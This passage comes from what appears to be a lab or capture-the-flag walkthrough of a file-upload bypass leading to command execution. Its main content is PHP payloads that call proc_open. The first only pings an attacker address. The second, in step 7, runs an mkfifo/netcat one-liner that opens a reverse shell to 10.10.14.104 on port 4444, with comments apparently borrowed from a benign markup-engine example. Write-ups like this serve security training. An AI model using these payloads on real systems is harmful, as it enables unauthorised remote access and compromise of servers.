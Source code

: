 	// command to invoke markup engine
	$cmd = "ping -c 5 10.10.14.104";
	
	// spawn the process
	$p = proc_open($cmd, $desc, $pipes);
	
	// send the wiki content as input to the markup engine 
	// and then close the input pipe so the engine knows 
	// not to expect more input and can start processing
	fwrite($pipes[0], $content);
	fclose($pipes[0]);
	
	// read the output from the engine
	$html = stream_get_contents($pipes[1]);
	
	// all done! Clean up
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($p);
	?>
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
6. Demo - File Upload Bypass -> Command Execution Test
	![](Cm6N6neOQi.gif)
	> Ping returned !
	{: .prompt-info }
7. Invoke reverse shell
	```
	# Payload
	<?php
	// descriptor array
	$desc = array(
	    0 => array('pipe', 'r'), // 0 is STDIN for process
	    1 => array('pipe', 'w'), // 1 is STDOUT for process
	    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process
	);
	
	// command to invoke markup engine
	$cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.104 4444 >/tmp/f";
	
	// spawn the process
	$p = proc_open($cmd, $desc, $pipes);
	
	// send the wiki content as input to the markup engine 
	// and then close the input pipe so the engine knows 
	// not to expect more input and can start processing
	fwrite($pipes[0], $content);
	fclose($pipes[0]);
	